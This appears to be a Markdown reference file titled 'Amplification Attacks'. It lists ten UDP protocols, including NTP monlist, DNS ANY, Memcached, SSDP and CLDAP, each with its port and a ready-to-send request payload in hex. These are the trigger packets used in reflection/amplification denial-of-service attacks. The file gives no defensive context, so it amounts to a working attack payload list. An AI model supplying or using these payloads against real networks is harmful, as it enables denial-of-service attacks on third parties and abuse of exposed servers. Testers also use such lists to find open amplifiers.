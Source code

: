 # Amplification Attacks


|Protocol| Description |UDP Port | Request Payload HEX| 
|---| --- | ---| --- | 
|**NTP**| monlist command | 123 |`1700032a0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000` | 
|**DNS**|  ANY google.com query| 53 |`17ea0100000100000000000106676f6f676c6503636f6d0000ff00010000290200000000000000` | 
|**Memcached**|  stat items |11211 | `5a4d0000000100007374617473206974656d730d0a` | 
|**SNMP**|  system description field using community string public | 161 |`302902010004067075626c6963a01c0204565adc5d020100020100300e300c06082b060102010101000500` |
|**CharGen**| one byte data "a" | 19 |`610a` |
|**RIPv1** | malformed request | 520 |`010100000000000000000000000000000000000000001000`|
|**QOTD**| trigger a quote | 17 | `00`|
|**SSDP**| trigger ssdp:all responses from UPnP SSDP service | 1900 |`4d2d534541524348202a20485454502f312e310d0a486f73743a3233392e3235352e3235352e3235303a313930300d0a53543a737364703a616c6c0d0a4d616e3a22737364703a646973636f766572220d0a4d583a310d0a`|
|**CLDAP**| searchrequest CLDAP | 389 | `30840000002d02010163840000002404000a01000a0100020100020100010100870b6f626a656374636c617373308400000000000a`|
|**NETBIOS**| NBSTAT query to get status | 137 | `e5d80000000100000000000020434b4141414141414141414141414141414141414141414141414141414141410000210001`|
